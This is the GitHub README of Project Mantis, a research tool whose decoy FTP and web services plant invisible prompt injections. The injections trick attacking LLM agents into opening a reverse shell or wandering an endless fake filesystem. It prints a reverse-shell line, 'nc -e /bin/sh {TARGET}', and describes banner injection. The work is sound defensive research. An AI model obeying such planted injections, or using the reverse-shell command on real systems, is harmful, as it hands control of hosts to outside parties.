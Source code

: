 <p align="center">
 <img height="150" src="assets/logo.png"> 
</p>

# Project Mantis:  *Hacking Back the AI-Hacker*
## Prompt Injection as a Defense Against LLM-driven Cyberattacks

🔨Working on transforming Mantis from an academic PoC to a full-fledged and robust defensive tool for your assets. 🪚  

⚠️ Until an official release, this code might undergo severe refactoring and breaking updates. ⚠️

#### Next Milestones:

- [x] Multi-threading for decoys
- [ ]  Advanced agent tracking capabilities
- [x]  Web-based decoy
- [ ]  Refactoring Mantis as a Daemon/Controller interface

## Install Mantis

```
pip install -r requirements.txt
```

## Run Mantis with pre-made configurations
Various pre-made configurations are available in the ```./confs``` directory.

### Hack-back
An example of a Mantis configuration file is given in ```./confs/ftp_hackback_rshell.py```. What this configuration means and how you can choose yours will be explained later in this README file. This can be run using the ```mantis_run.py``` script:
```
python mantis_run.py confs.ftp_hackback_rshell
```
Running Mantis with ```confs/ftp_hackback_rshell.py``` will spawn an FTP decoy server with anonymous credentials that aims to trick the attacking LLM-agent into opening a reverse shell via (invisible) prompt injections. When triggered, it spawns a reverse shell listener on the specified port for testing (⚠️ this configuration is not intended for production ⚠️). 


A variation of the above that uses a SQL-Injection-vulnerable-webapp as decoy can be run via:

```
python mantis_run.py confs.web_hackback_rshell
```

Another configuration is provided in ```confs/web_hackback_rshell_with_inj_banner.py```, which is a variation of ```confs.web_hackback_rshell```. This configuration employs service banner injection to attract attackers. The injection can be controlled using the hyper-parameter: ```BANNER_INJECTION_POOL``` (refer to the content of ```confs/web_hackback_rshell_with_inj_banner.py``` for an example).


In all these examples, we use a very simple reverse shell initiator: ```nc -e /bin/sh {TARGET} ...```. This can be changed by altering the variable ```REVERSE_SHELL_INITIATOR``` in the configuration file (e.g., ```confs/ftp_hackback_rshell.py```), where the parameter ```{TARGET}``` is the IP of the host (which is set automatically by Mantis). If you want to automate the attacker's post-exploitation, you can modify or replace the class ```Mantis.Decoys.reverse_shell_listener.ReverseShellListenerTest```. More on how the configuration files work later.



### Tarpit
Another example is ```./confs/ftp_filesystem_tarpit.py```:

```
python mantis_run.py confs.ftp_filesystem_tarpit
```

This starts a fake FTP server with an infinitely deep filesystem and tailored (invisible) prompt injections to keep the attacking LLM agent trapped. The complexity of the tarpit can be set via the ```EXPECTED_NUMBER_OF_DIRECTORIES``` variable in ```./confs/ftp_filesystem_tarpit.py```.

## Create your own configuration
TODO

### Decoys
TODO

## Create your own decoy
TODO

# White paper
A general description of Mantis's internal working is given in this [paper](https://arxiv.org/abs/2410.20911). Follow a description of the material necessary to replicate our evaluation.


## Testing Mantis on a remote machine for evaluation
To simulate the deployment of Mantis on a remote machine (e.g., a HackTheBox CTF) as done in the paper, it is enough to run ```./mantis_start_with_forward_proxy.py``` instead of ```./mantis_start.py```. This main takes two additional arguments:

* *destination_ip*: The IP of the remote machine
* *ports*: List of ports to forward

For instance, to run Mantis on the HackTheBox's CTF *Dancing*, you can run this:
```
python mantis_start_with_forward_proxy.py confs.ftp_hackback_rshell 10.129.70.160 --ports 135 139 445
```

Here ```10.129.70.160``` is the IP assigned by HackTheBox (put there yours), and ```135 139 445``` are the open ports on *Dancing*. (If you use an HackTheBox machine as in the example, remember to start the VPN on your host first.)

Now, attacking your host machine, your attacking the remote machine.


## How to cite Mantis:

```
@misc{pasquini2024hackingaihackerpromptinjection,
      title={Hacking Back the AI-Hacker: Prompt Injection as a Defense Against LLM-driven Cyberattacks}, 
      author={Dario Pasquini and Evgenios M. Kornaropoulos and Giuseppe Ateniese},
      year={2024},
      eprint={2410.20911},
      archivePrefix={arXiv},
      primaryClass={cs.CR},
      url={https://arxiv.org/abs/2410.20911}, 
}
```
